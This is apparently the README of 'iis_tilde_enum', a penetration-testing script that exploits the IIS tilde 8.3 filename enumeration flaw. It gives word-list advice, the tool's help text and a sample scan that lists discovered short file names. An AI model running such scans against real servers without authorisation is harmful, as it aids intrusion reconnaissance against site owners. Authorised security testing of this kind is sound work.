 iis_tilde_enum
==========

Takes a URL and then exploits the IIS tilde 8.3 enumeration vuln and tries to get you full file names.

You feed this script a URL and also a word list of potential file names. The script will look up the file
roots in your word list and then try them with appropriate extensions.

For word lists, the [fuzzdb](https://code.google.com/p/fuzzdb/) word lists are pretty good. We sometimes use the
https://code.google.com/p/fuzzdb/source/browse/trunk/discovery/PredictableRes/raft-small-words-lowercase.txt
(or large or medium) for this work.

This is not a directory enumerator (i.e., tries all words in a list against a web server). It will only find
directories that have names longer than 8 characters (since only then will they have 8.3 names and be recognized
by the vulnerability). You should still try to enumerate directories using a word list and
[DirBuster](https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project) or Burp Intruder or something.

Just as a note: on Windows computers you can view 8.3 names in the command prompt window by using the
`dir /x` command. One of the columns will be the 8.3 name (if there is one).

Always enjoy feedback and suggestions.


Help
====
<pre>$  ./tilde_enum.py -h
usage: tilde_enum.py [-h] [-d DIRWORDLIST] [-f] [-o OUT_FILE] [-p PROXY]
                     [-u URL] [-v VERBOSE_LEVEL] [-w WAIT]

Exploits and expands the file names found from the tilde enumeration vuln

optional arguments:
  -h, --help        show this help message and exit
  -d DIRWORDLIST    an optional wordlist for directory name content
  -f                force testing of the server even if the headers do not
                    report it as an IIS system
  -o OUT_FILE       Filename to store output
  -p PROXY          Use a proxy host:port
  -u URL            URL to scan
  -v VERBOSE_LEVEL  verbose level of output (0~2)
  -w WAIT           time in seconds to wait between requests
</pre>


Sample Output
======
<pre>
$  ./tilde_enum.py -u http://iis -v 2 -w 0.1 -o output.txt
[-]  Verbose Level=2 ....brace yourself for additional information.
[-]  Testing with dummy file request http://iis/subdir/SQnxKKN5qE2MS.htm
[-]    URLNotThere -> HTTP Code: 404, Response Length: 1379
[-]  Testing with user-submitted http://iis/subdir/
[-]    URLUser -> HTTP Code: 200, Response Length: 7608
[+]  HTTP Response Codes: {'user_length': 7608, 'not_there_length': 1379, 'user_code': 200, 'not_there_code': 404}
[-]  User-supplied delay detected. Waiting 0.1 seconds between HTTP requests.
[+]  The server is reporting that it is IIS (Microsoft-IIS/6.0).
[+]  The server is vulnerable to the tilde enumeration vulnerability (IIS/5|6.x)..
[+]  Found file:  cocee6~1.asp
[+]  Found file:  codeec~1.asp
[+]  Found file:  cod64a~1.asp
[+]  Found file:  cod64e~1.asp
[+]  Found file:  cod642~1.asp
[+]  Found file:  coe2c8~1.asp
[+]  Found file:  coe6b4~1.asp
[+]  counterEnum: http://iis/subdir/conten counter end with ~4.
[+]  Found file:  conten~1.asp
[+]  Found file:  conten~2.asp
[+]  Found file:  conten~3.asp
[+]  Found file:  conten~4.asp
[+]  Found file:  co8995~1.asp
[+]  Found file:  co9999~1.asp
[+]  counterEnum: http://iis/subdir/flash_ counter end with ~3.
[+]  Found file:  flash_~1.htm
[+]  Found file:  flash_~2.htm
[+]  Found file:  flash_~3.htm
[+]  Found file:  index~1.asp
[+]  Found file:  index~1.htm
[+]  Found file:  login_~1.asp
[+]  Found file:  menu-s~1.asp
[+]  Found file:  sso_ch~1.asp
[-]  Finished doing the 8.3 enumeration for /subdir/.

---------- FINAL OUTPUT ------------------------------
http://iis/subdir/co8995~1.asp
http://iis/subdir/co9999~1.asp
http://iis/subdir/cocee6~1.asp
http://iis/subdir/cod642~1.asp
http://iis/subdir/cod64a~1.asp
http://iis/subdir/cod64e~1.asp
http://iis/subdir/codeec~1.asp
http://iis/subdir/coe2c8~1.asp
http://iis/subdir/coe6b4~1.asp
http://iis/subdir/conten~1.asp
http://iis/subdir/conten~2.asp
http://iis/subdir/conten~3.asp
http://iis/subdir/conten~4.asp
http://iis/subdir/flash_~1.htm
http://iis/subdir/flash_~2.htm
http://iis/subdir/flash_~3.htm
http://iis/subdir/index~1.asp
http://iis/subdir/index~1.htm
http://iis/subdir/login_~1.asp
http://iis/subdir/menu-s~1.asp
http://iis/subdir/sso_ch~1.asp
---------- OUTPUT COMPLETE ---------------------------
</pre>
